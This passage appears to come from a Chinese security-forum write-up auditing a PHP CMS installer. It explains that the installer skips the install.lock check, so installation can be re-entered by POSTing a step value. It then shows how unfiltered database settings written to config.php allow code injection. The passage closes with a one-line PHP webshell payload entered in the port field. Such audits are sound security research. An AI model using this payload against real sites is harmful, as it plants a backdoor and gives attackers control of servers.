 [![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-aebe816139f9707c4987b43639c7ff17966855ef.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-aebe816139f9707c4987b43639c7ff17966855ef.png)

用fopen函数 写入的方式打开了文件  
用fputs函数写入文件  
fputs() 函数写入文件（可安全用于二进制文件）

[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-148250b7b168fd02b1f2be7cd4316cec647a688a.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-148250b7b168fd02b1f2be7cd4316cec647a688a.png)

然后在step\_2.php 以及 345文件中都没有发现判断是否又install.lock这个文件

[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-e56f659fde2a91e8f8f8ba87e8e967f910645baa.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-e56f659fde2a91e8f8f8ba87e8e967f910645baa.png)

在install/index.php页面又是通过$step来包含这些页面的 然后我们看看这个$step是怎么传入的

[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-2ee711829054ccbdaf995973ab652935e2e9a2d0.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-2ee711829054ccbdaf995973ab652935e2e9a2d0.png)

自己通过post的方式传入 也没有任何防护 所以我们可以直接通过post的方式构造step=2 直接来到安装步骤的第二步  
测试  
现进入install/index.php页面

[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-bf5b5b7469be16d2bec771a5329253d79b7e6c5e.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-bf5b5b7469be16d2bec771a5329253d79b7e6c5e.png)

然后打开hackbar

[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-8822ddf76739b106fa471a9b35dd78443b52e346.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-8822ddf76739b106fa471a9b35dd78443b52e346.png)

这里有个疑惑 不知道为什么抓包改请求方式的办法 一直用不起 页面一直显示空白

[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-498b7f02c30d2f2ad80821efb516de50940c8bd7.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-498b7f02c30d2f2ad80821efb516de50940c8bd7.png)

一直下一步 来到这里

[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-ecc7d30ae02211c430a8bb07f3543599eacf2418.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-ecc7d30ae02211c430a8bb07f3543599eacf2418.png)

通过这里可以知道 创建数据库这一步的这些数据 会写入到另一个文件config.php

[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-d445c36349001af902bbaaade93a8d4c07985e15.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-d445c36349001af902bbaaade93a8d4c07985e15.png)

并且写入的时候 没有什么过滤 说明 写入的参数是可控的 在这里可以直接尝试写入一句话  
在端口的位置输入3306');eval($\_POST\['a'\]);('
